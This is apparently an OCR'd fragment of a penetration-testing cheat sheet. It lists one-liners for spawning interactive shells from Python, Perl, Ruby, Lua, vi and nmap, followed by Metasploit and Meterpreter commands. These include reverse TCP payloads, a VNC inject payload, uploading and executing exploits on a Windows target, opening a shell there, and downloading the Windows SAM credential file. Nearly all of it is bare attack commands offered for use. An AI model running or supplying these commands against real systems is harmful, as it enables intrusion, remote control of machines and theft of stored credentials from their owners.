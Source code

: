 	echo os.system('/bin/bash')

	Spawn Interactive sh shell
		/bin/sh -i

	Spawn Perl TTY Shell
		exec "/bin/sh";
		perl —e 'exec "/bin/sh";'

	Spawn Ruby TTY Shell	
		exec "/bin/sh"

	Spawn Lua TTY Shell
		os.execute('/bin/sh')

	Spawn TTY Shell from Vi
		Run shell commands from vi:
			:!bash

	Spawn TTY Shell NMAP
		!sh

### Metasploit Cheat Sheet
A basic metasploit cheat sheet that I have found handy for reference.
Basic Metasploit commands, useful for reference, for pivoting see - Meterpreter Pivoting techniques.

	**Meterpreter Payloads**

		set payload windows/meterpreter/reverse_tcp
		Windows reverse tcp payload

		Windows VNC Meterpreter payload
			set payload windows/vncinject/reverse_tcp
			set ViewOnly false
		
		Linux Reverse Meterpreter payload
			set payload linux/meterpreter/reverse_tcp
			Meterpreter Linux Reverse Payload

	**Useful meterpreter commands.**
			upload file c:\\windows
			Meterpreter upload file to Windows target

			Meterpreter download file from Windows target
				download c:\\windows\\repair\\sam /tmp
	
			execute -f c:\\windows\temp\exploit.exe
			Meterpreter run .exe on target - handy for executing uploaded exploits

			execute -f cmd -c 
			Creates new channel with cmd shell

			ps
			Meterpreter show processes

			shell
			Meterpreter get shell on the target
